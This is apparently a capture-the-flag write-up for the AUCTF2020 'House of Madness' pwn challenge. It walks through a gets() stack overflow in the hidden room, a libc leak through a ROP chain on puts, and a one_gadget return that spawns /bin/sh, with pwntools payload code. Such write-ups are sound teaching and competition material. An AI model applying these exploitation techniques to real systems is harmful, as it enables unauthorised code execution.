 ## House of Madness

### Description
> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
>
> nc challenges.auctf.com 30012
>
> Note: ASLR is disabled for this challenge
>
> Author: kensocolo
>
> Edit: this challenge's binary was originally a little weird. try this again!

### Attachment
[challenge](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/AUCTF2020/pwn/challenge/challenge)

### Analysis

we can `unlockHiddenRoom4` by entering room4 and inputing key `Stephen`

```c
void room4(void){
  int iVar1;
  char local_2c [16];
  char local_1c [20];
  
  puts("Wow this room is special. It echoes back what you say!");
  while( true ) {
    if (unlockHiddenRoom4 != '\0') {
      puts("Welcome to the hidden room! Good Luck");
      printf("Enter something: ");
      gets(local_1c);
      return;
    }
    printf("Press Q to exit: ");
    fgets(local_2c,0x10,stdin);
    remove_newline(local_2c);
    printf("\tYou entered \'%s\'\n",local_2c);
    iVar1 = strcmp(local_2c,"Q");
    if (iVar1 == 0) break;
    iVar1 = strcmp(local_2c,"Stephen");
    if (iVar1 == 0) {
      unlockHiddenRoom4 = '\x01';
    }
  }
  return;
}
```

#### buffer overflow

we got a buffer overflow `gets(local_1c)` after hidden room 4 is unlocked.

#### disabled ASLR

In the Description we know that:

?> Note: **ASLR is disabled** for this challenge

**ASLR is disabled** means the base address of `text` and `libc` is a **constant**:

```python
text = 0x56555000
libc = 0xf7e19000
```

so we can get shell directly by overwrite the return address to one gadget.

### Soultion

#### leak libc

before the attack, we should know the version of remote `libc`. leak it:

```python
offset = cyclic_find('haaa')-8
payload = cyclic(offset)
payload += p32(got)
payload += p32(0xdeadbeef)
payload += p32(text+elf.plt['puts']) + p32(0xdeadbeef) + p32(text+elf.got['puts']) 

sla('Your choice: ','2')
sla('Choose a room to enter: ','4')
sla('Your choice: ','3')
sla('Press Q to exit: ','Stephen')
# debug('b *0x56556684')
sla('Enter something: ',payload)
puts = uu32(rc(4))
info_addr('puts',puts)
```

> output: puts: 0xf7e78b80

find libc version by `libc_database`:

```shell
% ./find puts b80
archive-glibc (id libc6_2.23-0ubuntu3_i386)
```

#### one gadget

search one gadget by `one_gadget`:

```shell
% one_gadget libc6_2.23-0ubuntu3_i386.so 
0x3ac3c execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL
```

#### get shell

the constraints is `[esp+0x28] == NULL`, so we should fill stack with `\x00` :

```python
# gadget
og_off = 0x3ac3c
og = libc+og_off

offset = cyclic_find('haaa')
payload = cyclic(offset)
payload += p32(og)
payload += p32(0)*100   # fill stack with '\x00'
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/AUCTF2020/pwn/challenge) 

